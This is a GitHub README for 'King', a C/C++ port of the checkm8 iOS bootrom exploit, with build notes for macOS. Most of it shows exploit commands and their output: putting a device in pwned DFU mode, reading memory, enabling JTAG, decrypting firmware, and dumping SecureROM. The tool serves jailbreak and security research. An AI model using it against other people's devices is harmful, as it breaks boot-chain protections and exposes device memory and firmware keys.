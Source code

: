 Fork from a1exdandy..

modify to compile im MAC OS catalina 10.15.5

install libusb:

 brew install libusb - current version for me is 1.0.23 - may need to edit CMakeList.txt
 
build:

  cd King
 
  mkdir build
 
  cd build
 
  cmake ..

Works on my iPhone 6s n71ap :)

Original README below
===========================================================
# King

Port of [@axi0mX's](https://twitter.com/axi0mx) checkm8 exploit ([ipwndfu](https://github.com/axi0mX/ipwndfu)) to C/C++

**Supported devices:**

* `T7000`
  * `Apple TV (4th generation)`
  * `HomePod`
  * `iPad mini 4`
  * `iPhone 6`
  * `iPhone 6 Plus`
  * `iPod touch (6th generation)`
* `S8000` and `S8003`
  * `iPad (5th generation)`
  * `iPhone 6s`
  * `iPhone 6s Plus`
  * `iPhone SE`
* `T8010`
  * `iPad (6th generation)`
  * `iPhone 7`
  * `iPhone 7 Plus`

**Works on:**

 * `Windows` (see notes below)
 * `Linux` (tested on `Ubuntu 16.04` and `Ubuntu 19.10`)
 * `MacOS` (cmake-building not working now, do it yourself)


## Windows notes

Requimpents:

* `libusbK` driver (can be installed with [zadig](https://zadig.akeo.ie/))
* `libusb` with fixed `MAX_PATH_LENGTH` ([see this PR](https://github.com/libusb/libusb/pull/699))

## Compilation

```bash
cd King
mkdir build
cd build
cmake ..
make
cp -R ../bin .
```

## Run checkm8 exploit
```
sudo ./king checkm8
[*] Shellcode generated ...
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33]
[*] stage 1, heap grooming ...
[*] stage 2, usb setup, send 0x800 of 'A', sends no data
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33]
[*] stage 3, exploit
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33]
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8]
[!] Device is now in pwned DFU Mode! :D
```

## Read memory
```
sudo ./king read64 0x100000280
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8]
[*] [100000280] = 36322D746F6F4269
```

```
sudo ./king read32 0x100000280
[*] Device Serial Number: CPID:8010 CPRV:11 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8]
[*] [100000280] = 6F6F4269
```

## Demote device (Enable JTAG)
```
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8]
[*] DemotionReg: 287
[*] Setting Value...
[*] New DemotionReg: 286
[!] Succeeded to enable the JTAG!
```

## Decrypt and unpack IM4P firmware image
```
sudo ./king decryptIMG iBoot.d10.RELEASE.im4p   
decryptIMG4
IM4P: ---------
type: ibot
desc: iBoot-5540.0.129
size: 0x00072340

KBAG
num: 1
3c8b957e2bca7ce6e56b41f86490f535
9fde3e44de15dac204f895378d0e7eb03ecc2b67bb1958bb2c70508ea63875f5
num: 2
af60c224bd43c632a17495816dca1ae6
bada1c3314217e7dd6b903d4c3caf3a7aa0f214ec40f13a1085d04bb2d05dc25

[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8][*] Decrypted Keybag: 
DF97....15CE
[*] Decrypted Key: 
369......5CE
[*] Decrypted IV: 
DF........E7
[!] File succesfully decrypted and written to: iBoot.d10.RELEASE.im4p_decrypted
```

## Hexdump
```
C:\src\King\build>Release\king.exe hexdump 0x100000200 0x90
[*] Device Serial Number: CPID:7000 ... SRTG:[iBoot-1992.0.0.1.19] PWND:[checkm8]
0000000100000200: 53 65 63 75 72 65 52 4f 4d 20 66 6f 72 20 74 37  SecureROM for t7
0000000100000210: 30 30 30 73 69 2c 20 43 6f 70 79 72 69 67 68 74  000si, Copyright
0000000100000220: 20 32 30 31 33 2c 20 41 70 70 6c 65 20 49 6e 63   2013, Apple Inc
0000000100000230: 2e 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0000000100000240: 52 45 4c 45 41 53 45 00 00 00 00 00 00 00 00 00  RELEASE.........
0000000100000250: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0000000100000260: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0000000100000270: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0000000100000280: 69 42 6f 6f 74 2d 31 39 39 32 2e 30 2e 30 2e 31  iBoot-1992.0.0.1
```

## SecureROM dumping
```
C:\src\King\build>Release\king.exe dump-rom
[*] Device Serial Number: CPID:7000 ... SRTG:[iBoot-1992.0.0.1.19] PWND:[checkm8]
Saved: SecureROM-t7000si-RELEASE-1992.0.0.1.19.dump
```
